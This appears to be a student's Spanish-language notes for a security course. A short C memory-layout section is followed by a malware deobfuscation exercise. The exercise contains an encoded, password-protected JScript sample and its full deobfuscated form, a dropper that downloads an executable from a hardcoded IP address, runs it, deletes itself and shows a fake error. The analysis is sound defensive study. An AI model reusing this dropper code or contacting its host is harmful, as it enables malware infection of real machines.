
donde:
- `pae`:
  - Variable automática en stack.
  - Tipo `int *`.
  - Dirección de la variable: `&pae = 0x7fffffffdb58` (stack).
  - Valor actual: `pae = 0x5555555596b0` (dirección de heap).

- `*pae`:
  - Objeto `int` en el heap (memoria dinámica).
  - Dirección: `&*pae = 0x5555555596b0` (igual que `pae`).
  - Valor actual: 100.
  - En el panel de memoria: bytes `64 00 00 00 ....` Ques es 100 en hexadecimal.


----------------------------------------------------------
## Tabla resumen de las variables
| Variable | Tipo    | Ámbito / Clase          | Duración   | Segmento de memoria | Valor por defecto al inicio del programa                |
| -------- | ------- | ----------------------- | ---------- | ------------------- | ------------------------------------------------------- |
| `init gni;`    | `int`   | Global, sin inicializar | Estática   | `.bss`              | `0`                                                     |
| `init gi = 99;`     | `int`   | Global, inicializada    | Estática   | `.data`             | `99`                                                    |
| `static init eni;`    | `int`   | Estática local no inicializada. `static` local en `f()` | Estática   | `.bss`              | `0`                                                     |
| `static init ei = 99;`     | `int`   |  Estática local inicializada. `static` local en `f()` | Estática   | `.data`             | `99`                                                    |
| `int *pae`    | `int *` | Local en `main`         | Variable local Automática | **Stack** (pila)    | Sin valor por defecto (pero se inicializa con `malloc`) |
| `*pae`   | `int`   | Dato apuntado por `pae` | Dinámica. El int que reserva malloc   | **Heap**            | Indeterminado (basura tras `malloc`)                    |


### Esquema general de memoria para esas variables
```
   Direcciones bajas
   ┌─────────────────────────────────────────────────────┐
   │       Código (.text)                                |
   |   código de main, f, printf, etc.                   │
   ├─────────────────────────────────────────────────────┤
   │   Datos inicializados (.data)                       │
   │   - gi = 99    (global int = 99)                    │
   │   - ei = 99    (static int en f() = 99)             │
   ├─────────────────────────────────────────────────────|
   │    Datos no inic. (.bss)                            │
   │   - gni = 9   (global int sin inicializar)          │
   │   - eni = 0   (static int en f() sin inicializar)   │
   ├─────────────────────────────────────────────────────┤
   │   Heap (montículo)                                  │ 
   │   [ int ] = 100   ← (*pae)                          │ 
   │                                                     |
   ├─────────────────────────────────────────────────────┤
   │   ... espacio libre ...                             │
   ├─────────────────────────────────────────────────────┤
   │   Stack (pila)                                      │
   │   - variables de main:                              │
   │       pae ─────────────┐                            │
   │                        │                            │
   │                        ▼                            │
   │                    [ int ]                          |
   └─────────────────────────────────────────────────────┘
   Direcciones altas
```


----------------------------------------------------------------------------------
Dir: 0x555555555038 Val: 0    // eni  (static sin inicializar)  → .bss
Dir: 0x55555555502c Val: 99   // ei   (static inicializado)      → .data
Dir: 0x5555555596b0 Val: 0    // *pae antes de asignar          → heap (basura, aquí ha salido 0)
Dir: 0x5555555596b0 Val: 100  // *pae después de *pae = 100     → heap
Dir: 0x5555555558034 Val: 9   // gni después de gni = 9         → global .bss


----------------------------------------------------------------------------------

# Ejercicio 6 - Desofuscación de un programa
Debes analizar este fragmento y extraer la funcionalidad que posee y los IOC (Indicadores de compromiso1) asociados (dominios, IP, etc) para crear reglas eficaces en los sistemas de defensa de la empresa.
- Deberéis de desofuscar el ejemplar.
- Analizad de forma estática (no lo ejecutéis bajo nigún concepto) su comportamiento y describid que hace o parece hacer.
- Extraer los IOCs si es que existe alguno.
- EXPLICAD PASO A PASO (si es con imágenes mejor) como lo hacéis.

```
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
```

Ese fragmento está codificado y comprimido, luego tenéis que realizar las siguientes operaciones para obtener el original (vamos a suponer que lo habéis guardado en un archivo: mrev_t1_exe6.txt):
- $ base64 -d mrev_t1_exe6.txt > mrev_t1_exe6.zip
- $ unzip ejercicio.zip
- La contraseña es: master2021

Pistas:
- Nada es lo que parece a simple vista
- Javascript es un lenguaje con un comportamiento…curioso
- A veces es mejor intentar cosas pequeñas, de forma aislada…
- Node es tu amigo
- Sustitución es mejor que fuerza bruta


----------------------------------------------
## Desofuscación del archivo

### Buscamos finalizaciones de línea



### Búsqueda de cadenas con `\uXXXX`:
Cada `\uXXXX` es un carácter Unicode en hexadecimal. Ejemplo:
- `\u0041 → A`
- `\u0063 → c`
- `\u0074 → t`
- `\u0069 → i`
- `\u0076 → v`
- `\u0065 → e`

### Eliminamos {...} seguido de un punto .
Esto es Basura. Solo importa lo que está entre comillas.

Vamos a usar Expresiones Regulares (Regex) para quitar esa basura. En Visual Studio:
- Abrimos "Buscar y Reemplazar".
- Activamos el botón de "Usar Expresión Regular".
- Buscamos: `\{[^{}]+:(".*?")\}\.[a-zA-Z0-9]+`
- Reemplazamos con: `$1`. Mantendrá sólo lo que encuentra dentro del primer paréntesis (las comillas).




### Quitar los símbolos +
Ahora vamos a quitar los `+`:
- Abrimos "Buscar y Reemplazar".
- Activamos el botón de "Usar Expresión Regular".
- Buscamos: `"\+"`.
- Reemplazamos con: Dejamos vacío.




### Unir las cadenas
- Abrimos "Buscar y Reemplazar".
- Activamos el botón de "Usar Expresión Regular".
- Buscamos: `"\s*\+\s*"`.
- Reemplazamos por: Dejamos vacío.


### Convertir todos los u00xx a caracteres 
Podemos usar el propio navegador para hacer esa conversión:
- Copiamos el bloque con las comillas y las secuencias \u00xx (por ejemplo "\\u0041\\u0063...").
- En la consola del browser usamos:
  ```
  // Pegamos las cadenas ofuscadas
  const s = "\\u0041\\u0063\\u0074\\u0069\\u0076\\u0065\\u0058\\u004f\\u0062\\u006a\\u0065\\u0063\\u0074";

  const decoded = s.replace(/\\u[0-9a-fA-F]{4}/g, m =>
    String.fromCharCode(parseInt(m.slice(2), 16))
  );

  console.log(decoded);  // Veremos el resultado desofuscado la cadena
  ```
  
  
- Reemplazamos en el archivo el texto ofuscado por el decoded que ha impreso el console.log.
  ```
  var pre_computer = this["ActiveXObject"]
  ```

Repetimos el proceso con Node:
- Creamos un archivo decode.js:
  ```
  let s = "\\u0057\\u0053\\u0063\\u0072\\u0069\\u0070\\u0074";

  let decoded = s.replace(/\\u[0-9a-fA-F]{4}/g, m =>
    String.fromCharCode(parseInt(m.slice(2), 16))
  );

  console.log(decoded);
  ```

- Ejecutamos este archivo con node:
  


Repetimos el proceso para todas las cadenas ofuscadas. Obtenemos:
```
pre_interactions=null;
pre_including8=null;
pre_with=null;
pre_Similar=null;
pre_customer=null;
pre_with2=null;
pre_training2=null;
pre_provide5=null;
pre_with=null;
pre_malicious1=null;
pre_purposes=null;
pre_software5=null;
varpre_computer=this["ActiveXObject"];
varWSSS12=this["WScript"];
varpre_your=WSSS12["CreateObject"]("WScript.Shell");
varpre_your8=newpre_computer("Scripting.FileSystemObject")
varfstream=newpre_computer("ADODB.Stream");
varoShell=newpre_computer("Shell.Application");
varpre_from=pre_your["ExpandEnvironmentStrings"]("%TEMP%")
varpre_geolocation6=pre_from+"\\floor](Math["random"]()*(20+20+5+5+25+25)+1)+".exe";
varxhr12=newpre_computer("Msxml2.ServerXMLHTTP")
varpre_national7="\aflash_update.js"
varpre_interactions4=oShell["NameSpace""](3+2+2);
arpre_information5=false;
varpre_mobile7=false;
vartone=1;
varpre_following4=0;
arpre_information=0;
varfilets=null;
varpre_your="";
varscrpath=WSSS12["ScriptFullName"];
varautor=pre_interactions4.Self.Path+pre_national7;varpre_overheard=autor;varpre_from="https://217.28.218.217/NOPE/q64.php?add=gtyhbncdfewpnjm9oklmnfdrtqdczdfgrt";
if(scrpath!=autor&&pre_information5==false){pre_information5=true;
    pre_your8["DeleteFile"](scrpath);
    WSSS12["echo"]("he document is corrupted an\d cannot be opened")
    WSSS12["Sleep"](5000);
}for(pre_information=0;
    pre_information<pre_overheard.length;
    pre_information++){pre_following4=((pre_following4<<5)-pre_following4+pre_overheard.charCodeAt(pre_information))&0xffffffff;}while(true){tone=tone+1
        if(tone==200000000){while(true){try{xhr12["setOption"](3,"MSXML");xhr12["open"]("GET",pre_from+"&"+Math["&"floor"](Math["random"]()*200+1)+"&uid="+Math["abs"](pre_following4),false);
        xhr12["send"]();if(xhr12["status"]==100+50+50){if(pre_your8["FileExists"](pre_geolocation6))pre_your8["DeleteFile"](pre_geolocation6);
        fstream["Open"]();fstream["Type"]=1;
        fstream["Write"](xhr12["responseBody"]);
        fstream["Position"]=0
        fstream["SaveToFile"](pre_geolocation6);
        fstream["Close"]();filets=pre_your8["GetFile"](pre_geolocation6)["OpenAsTextStream"](1)
        if(pre_your8["FileExists"](pre_geolocation6)&&filets["ReadLine"]()[""substring""](0,2)=="MZ"){pre_mobile7=true;oShell["ShellExecute"](pre_geolocation6,"","","open1")
            if(pre_your8["FileExists"\u0074""\u0073""](WSSS12["ScriptFullName""]))pre_your8["DeleteFile"](WSSS12["ScriptFullName"])
                WSSS12["Sleep""](20*200);if(pre_your8["FileExists"](pre_geolocation6))pre_your8["DeleteFile"](pre_geolocation6);
            filets["Close"]();
            break;
        }filets[""Close"]();
    }}catch(e){}if(pre_mobile7==true){break;

    }WSSS12["Sleep"](10000*8);
}break;
}}pre_experienceInformation1=0.619;
pre_collect2=0.826;
pre_interactions4=0.82;
pre_numbers8=0.266;
pre_sent=318;
pre_access=170;
pre_companies=628;
pre_law=100;
pre_PayPal10=164;
pre_PayPal1=0.73;
pre_warningInformation=0.277;
pre_applicable=363;
pre_order=0.951;
pre_receive=412;
pre_information=542;
pre_reason3=759;
pre_conversations8=126;
pre_receive=884;
pre_data6=0.278;
```

#### Añadir espacios donde falten en var...
Por ejemplo en varpre_computer → le falta un espacio: debería ser algo como var pre_computer = ...
Corregimos todos estos espacios en blanco.


#### Renombrar variables para entender la lógica
```
var ActiveXObject_   = this["ActiveXObject"];
var WScriptObj       = this["WScript"];
var shell            = WScriptObj["CreateObject"]("WScript.Shell");
var fso              = new ActiveXObject_("Scripting.FileSystemObject");
var stream           = new ActiveXObject_("ADODB.Stream");
var shellApp         = new ActiveXObject_("Shell.Application");
var tempPath         = shell["ExpandEnvironmentStrings"]("%TEMP%");
var targetPath       = tempPath + "\\" +
                       Math["floor"](Math["random"]()*(20+20+5+5+25+25)+1) +
                       ".exe";
var http             = new ActiveXObject_("Msxml2.ServerXMLHTTP");
var scriptCopyName   = "\\aflash_update.js";
var folder3          = shellApp["NameSpace"](3+2+2);  // carpeta especial

var hasRun       = false;
var executed     = false;
var tone         = 1;
var hash         = 0;
var tmpFile      = null;
var scriptPath   = WScriptObj["ScriptFullName"];
var autor        = folder3.Self.Path + scriptCopyName;
var remoteUrl    = "https://217.28.218.217/NOPE/q64.php?add=gtyhbncdfewpnjm9oklmnfdrtqdczdfgrt";

```

### Limpiar llamadas a los objetos
Vamos a limpiar las llamadas tipo objeto["metodo"] a objeto.metodo: Para hacerlo aún más legible, vamos sustituyendo por ejemplo `shell["ExpandEnvironmentStrings"]` por `shell.ExpandEnvironmentStrings`. Repetimos con el resto de objetos que nos encontramos en el código.


### Añadimos identación y espacios en blanco
```
pre_interactions    = null;
pre_including8      = null;
pre_with            = null;
pre_Similar         = null;
pre_customer        = null;
pre_with2           = null;
pre_training2       = null;
pre_provide5        = null;
pre_with            = null;
pre_malicious1      = null;
pre_purposes        = null;
pre_software5       = null;

// INICIALIZACIÖN DE OBJETOS
var ActiveXObject   = this["ActiveXObject"];
var WScriptObj      = this["WScript"];
var shell           = WScriptObj.CreateObject("WScript.Shell");
var fso             = new ActiveXObject("Scripting.FileSystemObject")
var stream          = new ActiveXObject("ADODB.Stream");
var shellApp        = new ActiveXObject("Shell.Application");

// RUTAS Y CONFIGURACIÓN
var tempPath        = shell.ExpandEnvironmentStrings("%TEMP%")
var targetPath      = tempPath+"\\" + Math.ramdom () * (20+20+5+5+25+25)+1 + ".exe";
var http            = new ActiveXObject("Msxml2.ServerXMLHTTP")
var scriptCopyName  = "\\aflash_update.js"
var folder          = shellApp.NameSpace(3+2+2);
var hasRun          = false;
var executed        = false;
var tone            = 1;
var hash            = 0;
var pre_information = 0;
var tmpFile         = null;
var shellString     = "";
var scriptPath      = WScriptObj.ScriptFullName;
var autor           = folder.Self.Path+scriptCopyName;
var pre_overheard   = autor;
var tempPath        = "https://217.28.218.217/NOPE/q64.php?add=gtyhbncdfewpnjm9oklmnfdrtqdczdfgrt";


// LOGICA DE PERSISTENCIA
if (scriptPath !=autor && hasRun == false){
    hasRun=true;
    fso.DeleteFile(scriptPath); // Se borra a sí mismo
    WScriptObj.echo("he document is corrupted an\d cannot be opened")
    WScriptObj.Sleep(5000);
}

// ALGORTIMO DE HASHING - IDENTIFICADOR UNICO
for (pre_information=0; pre_information<pre_overheard.length; pre_information++){
    hash=((hash<<5) - hash + pre_overheard.charCodeAt(pre_information)) & 0xffffffff;
}


// BUCLE PRINCIPAL
while(true){
    tone = tone + 1
    
    if ( tone == 200000000 ) {
        while (true) {
            try{
                http.setOption(3,"MSXML");
                http.open(
                    "GET",
                    tempPath + "&" + Math.floor(Math.random() * 200+1) + "&uid="+Math.abs(hash),
                    false);
                http.send();
                
                if ( http.status == 100+50+50){
                    if ( fso.FileExists(targetPath) ) {
                        fso.DeleteFile(targetPath);
                }

                stream.Open();
                stream.Type=1;
                stream.Write(http.responseBody);
                stream.Position=0
                stream.SaveToFile(targetPath);
                stream.Close();
                
                tmpFile = fso.GetFile(targetPath).OpenAsTextStream(1)
        
                if (fso.FileExists(targetPath) && tmpFile.ReadLine().substring(0,2) == "MZ") {
                    executed=true;
                    shellApp.ShellExecute(targetPath,"","","open1")
            
                    if (fso.FileExists(WScriptObj.ScriptFullName)) {
                        fso.DeleteFile(WScriptObj.ScriptFullName)
                    }
                    
                    WScriptObj.Sleep(20*200);
                    
                    if(fso.FileExists(targetPath)) {
                        fso.DeleteFile(targetPath);
                    }

                    tmpFile.Close();
            
                    break;
                }
                tmpFile.Close();
    
            }
        }catch(e){ 

        }
        
        if(executed==true){
            break;
        }

        WScriptObj.Sleep(10000*8);
        }
        break;
    }
}

pre_experienceInformation1=0.619;
pre_collect2=0.826;
folder=0.82;
pre_numbers8=0.266;
pre_sent=318;
pre_access=170;
pre_companies=628;
pre_law=100;
pre_PayPal10=164;
pre_PayPal1=0.73;
pre_warningInformation=0.277;
pre_applicable=363;
pre_order=0.951;
pre_receive=412;
pre_information=542;
pre_reason3=759;
pre_conversations8=126;
pre_receive=884;
pre_data6=0.278;
```


## Analisis del comportamiento del malware
Basándonos en el código que hemos desofuscado y reconstruido podemos determinar que este script es un Downloader/Dropper (Descargador). Su único propósito es servir de puerta de entrada para infectar el equipo con otro virus más peligroso.
- **Comportamiento:** Al ejecutarse, muestra un mensaje de error falso: "The document is corrupted and cannot be opened". Usa Ingeniería Social --> Engaño.
- **Objetivo:** Hacer creer a la víctima que el archivo simplemente estaba roto, para que no sospeche que hay un script ejecutándose en segundo plano.

### Persistencia - Auto-instalación
```
if (scriptPath !=autor && hasRun == false){
    hasRun=true;
    fso.DeleteFile(scriptPath); // Se borra a sí mismo
    WScriptObj.echo("he document is corrupted an\d cannot be opened")
    WScriptObj.Sleep(5000);
}
```
donde:
- Comprueba si:
  - el script no se está ejecutando desde la ruta “objetivo” (scriptPath != autor), y
